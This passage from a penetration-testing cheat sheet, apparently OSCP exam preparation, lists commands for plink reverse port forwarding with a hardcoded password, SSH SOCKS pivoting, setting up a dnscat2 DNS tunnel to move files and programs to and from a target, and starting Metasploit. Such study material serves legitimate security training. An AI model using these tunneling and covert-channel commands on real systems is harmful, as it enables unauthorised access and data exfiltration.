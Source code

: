 -   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:  
        plink.exe -P 22 -l root -pw "1337" -R 445:$ip:445 $ip

-   SSH Pivoting

    -   SSH pivoting from one network to another:  
        ssh -D $ip:1010 -p 22 user@$ip

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting
        files (data and programs) to and from the target machine.

    -   Attacking Machine Installation:  
        apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        cd dnscat2/server  
        bundle install

    -   Run dnscat2:  
        ruby ./dnscat2.rb  
        dnscat2&gt; New session established: 1422  
        dnscat2&gt; session -i 1422

    -   Target Machine:  
        https://downloads.skullsecurity.org/dnscat2/
        https://github.com/lukebaggett/dnscat2-powershell/  
        dnscat --host &lt;dnscat server\_ip&gt;

<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

-   Metasploit

    -   MetaSploit requires Postfresql  
        systemctl start postgresql

    -   To enable Postgresql on startup  
        systemctl enable postgresql

-   MSF Syntax

    -   Start metasploit  
        msfconsole  
        msfconsole -q

